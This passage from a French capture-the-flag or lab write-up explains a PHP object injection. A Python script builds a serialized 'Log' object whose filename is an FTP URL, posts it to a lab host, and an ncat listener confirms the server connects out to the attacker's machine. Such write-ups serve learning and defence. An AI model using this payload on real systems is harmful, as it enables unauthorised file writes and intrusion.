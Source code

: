Après moult essais à essayer de tirer quelque chose de la fonction *eval()* de la classe *Log* (on recopie les scripts pour tester en local), force est de constater que celle-ci est une sirène destinée à nous séduire et nous retarder dans notre quête !  

Un *echo* bien placé permet de comprendre que l'on peut rien en tirer.  

Le *file\_put\_contents* est donc bien prometteur mais l'option *FILE\_APPEND* a de quoi refroidir :-(   

Comment savoir qu'on va bien écrire ce que l'on souhaite où on le souhaite ? On peut commencer par exploiter les fonctionnalités avancés du langage PHP, notamment les wrappers.  

J'ai écrit le code suivant qui tente d'écrire à une adresse FTP sous notre contrôle :  

```python
from urllib.parse import quote, unquote
import requests

original_payload = 'O:4:"Info":4:{s:2:"id";i:1;s:9:"firstname";s:4:"Rene";s:7:"surname";s:8:"Margitte";s:7:"artwork";s:23:"The Treachery of Images";}'

base_payload = 'O:3:"Log":2:{s:8:"filename";s:SIZE1:"OUTPUT_FILE";s:4:"data";s:SIZE2:"INJECTION";}'

injection = "nawak"
output_file = "ftp://test:test@192.168.1.6/toto"

new_payload = base_payload.replace("SIZE1", str(len(output_file))).replace("OUTPUT_FILE", output_file)
new_payload = new_payload.replace("SIZE2", str(len(injection))).replace("INJECTION", injection)
print(new_payload)

response = requests.post(
    "http://192.168.1.43/index.php",
    data={"param": new_payload},
    headers={
        "referer":"http://192.168.1.43/index.php",
        "content-type": "application/x-www-form-urlencoded"
    }
)

print(response.text)
```

et le miracle s'accomplit dans un ncat préalablement lancé :  

```shellsession
$ sudo ncat -l -p 21 -v
Ncat: Version 7.01 ( https://nmap.org/ncat )
Ncat: Listening on :::21
Ncat: Listening on 0.0.0.0:21
Ncat: Connection from 192.168.1.43.
Ncat: Connection from 192.168.1.43:37731.
```

Deux choses à en tirer : la dé-sérialisation a bien lieu et le path est pris directement (pas de prépend). Pour autant quand on tente d'écrire dans un script via un chemin relatif je ne vois rien apparaître.  
